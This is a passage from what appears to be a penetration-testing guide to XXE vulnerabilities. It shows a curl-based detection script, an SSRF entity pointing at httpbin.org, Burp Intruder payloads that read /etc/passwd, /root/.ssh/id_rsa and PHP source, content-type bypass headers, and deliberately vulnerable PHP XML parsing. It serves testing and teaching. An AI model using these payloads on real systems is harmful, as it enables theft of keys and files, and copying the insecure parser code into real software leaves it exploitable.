 ```bash
    | grep -i "root:" && echo "✓ File disclosure XXE detected"

# Test 3: HTTP SSRF
echo "=== Test 3: SSRF Detection ==="
curl -s -X POST "$URL" \
    -H "Content-Type: application/xml" \
    -d '<?xml version="1.0"?><!DOCTYPE test [<!ENTITY ssrf SYSTEM "http://httpbin.org/ip">]><root><email>&ssrf;</email></root>' \
    | grep -i "origin" && echo "✓ SSRF XXE detected"
```

### Burp Suite XXE Testing

#### Intruder Payloads
```xml
# File enumeration payloads
<!ENTITY file SYSTEM "file:///etc/passwd">
<!ENTITY file SYSTEM "file:///etc/hosts">
<!ENTITY file SYSTEM "file:///var/www/html/config.php">
<!ENTITY file SYSTEM "file:///root/.ssh/id_rsa">
<!ENTITY file SYSTEM "php://filter/convert.base64-encode/resource=index.php">
```

#### Content-Type Bypass
```http
# Try different content types
Content-Type: application/xml
Content-Type: text/xml  
Content-Type: application/soap+xml
Content-Type: application/xhtml+xml
```

---

## Vulnerable Code Examples

### PHP - Insecure XML Processing
```php
<?php
// Vulnerable: Default XML parser settings
$xml_data = file_get_contents('php://input');

// Dangerous: External entities enabled by default
$doc = new DOMDocument();
$doc->loadXML($xml_data); // XXE vulnerability

// Process XML without validation
$email = $doc->getElementsByTagName('email')->item(0)->nodeValue;
echo "Check your email: " . $email;
?>
```
